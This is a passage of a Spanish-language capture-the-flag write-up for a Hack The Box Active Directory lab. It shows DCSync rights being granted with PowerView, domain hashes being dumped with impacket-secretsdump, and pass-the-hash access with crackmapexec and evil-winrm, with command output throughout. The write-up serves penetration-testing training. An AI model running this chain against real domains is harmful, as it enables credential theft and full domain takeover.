 #### Otorgar permisos para DCSync

Como ahora mismo no nos encontramos dentro de la cuenta que tiene los permisos para ejecutar el ataque, podemos crear un objeto con sus credenciales para que sea como si el usuario los ejecutara.

```powershell
$SecPassword = ConvertTo-SecureString 'madlies123' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('htb\madlies', $SecPassword)
```

Ahora añadimos el permiso para que se pueda ejecutar el ataque con el siguiente comando:

```powershell
Add-DomainObjectAcl -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity madlies -Rights DCSync -Credential $Cred
```

Y para terminar ejecutamos el ataque con ayuda de `Impacket-secretdump`: 

```c
❯ impacket-secretsdump 'htb'/'madlies':'madlies123'@'10.129.252.2'  -outputfile forest_hashes
Impacket v0.11.0 - Copyright 2023 Fortra

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:819af826bb148e603acb0f33d17632f8:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\$331000-VK4ADACQNUCA:1123:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
...
htb.local\santi:aes256-cts-hmac-sha1-96:8a0b0b2a61e9189cd97dd1d9042e80abe274814b5ff2f15878afe46234fb1427
htb.local\santi:aes128-cts-hmac-sha1-96:cbf9c843a3d9b718952898bdcce60c25
htb.local\santi:des-cbc-md5:4075ad528ab9e5fd
```

Para validar que todo ha sido correcto se hace uso de `CME`, esto con el fin de validar que se cuenta con el `HASH` correcto:

```bash
❯ crackmapexec winrm 10.129.252.2  -d "htb.local"  -u "Administrator" -H "32693b11e6aa90eb43d32c72a07ceea6"
HTTP        10.129.252.2    5985   10.129.252.2     [*] http://10.129.252.2:5985/wsman
WINRM       10.129.252.2    5985   10.129.252.2     [+] htb.local\Administrator:32693b11e6aa90eb43d32c72a07ceea6 (Pwn3d!)
```

Y ya solo queda conectarse a la máquina con ayuda de `Evil-winrm` y poder conseguir la `flag` del usuario `administrador`.

```powershell
❯ evil-winrm -u "administrator" -H "32693b11e6aa90eb43d32c72a07ceea6" -i 10.129.252.2

Evil-WinRM shell v3.5

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine  

Info: Establishing connection to remote endpoint
PS C:\Users\Administrator\Documents> whoami
htb\administrator
PS C:\Users\Administrator\Documents> hostname
FOREST
PS C:\Users\Administrator\Documents> ipconfig

Windows IP Configuration
```